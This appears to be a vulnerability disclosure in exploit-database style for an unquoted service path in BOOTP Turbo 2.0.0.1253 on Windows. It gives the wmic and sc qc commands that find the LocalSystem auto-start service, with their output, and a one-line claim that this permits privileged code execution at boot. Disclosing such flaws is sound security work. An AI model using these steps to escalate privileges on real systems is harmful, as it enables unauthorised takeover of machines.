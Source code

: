 EXP
---

    # Exploit Title: BOOTP Turbo 2.0.0.1253 - 'bootpt.exe' Unquoted Service Path
    # Discovery by: Erick Galindo
    # Discovery Date: 2020-05-07
    # Vendor Homepage: https://www.weird-solutions.com
    # Software :  https://www.weird-solutions.com/download/products/bootpt_demo_x64.exe
    # Tested Version: 2.0.0.1253
    # Vulnerability Type: Unquoted Service Path
    # Tested on OS: Windows 10 Pro  x64 es
    # Step to discover Unquoted Service Path:

    C:\> wmic service get name, displayname, pathname, startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr  /i "BOOTP"
    BOOTP Turbo           BOOTP Turbo           C:\Program Files\BOOTP Turbo\bootpt.exe                    Auto

    # Service info

    C:\>sc qc "BOOTP Turbo"
    [SC] QueryServiceConfig CORRECTO

    NOMBRE_SERVICIO: BOOTP Turbo
            TIPO               : 10  WIN32_OWN_PROCESS
            TIPO_INICIO        : 2   AUTO_START
            CONTROL_ERROR      : 1   NORMAL
            NOMBRE_RUTA_BINARIO: C:\Program Files\BOOTP Turbo\bootpt.exe
            GRUPO_ORDEN_CARGA  :
            ETIQUETA           : 0
            NOMBRE_MOSTRAR     : BOOTP Turbo
            DEPENDENCIAS       : Nsi
                               : Afd
                               : NetBT
                               : Tcpip
            NOMBRE_INICIO_SERVICIO: LocalSystem

    #Exploit:

    This vulnerability could permit executing code during startup or reboot with the escalated privileges.
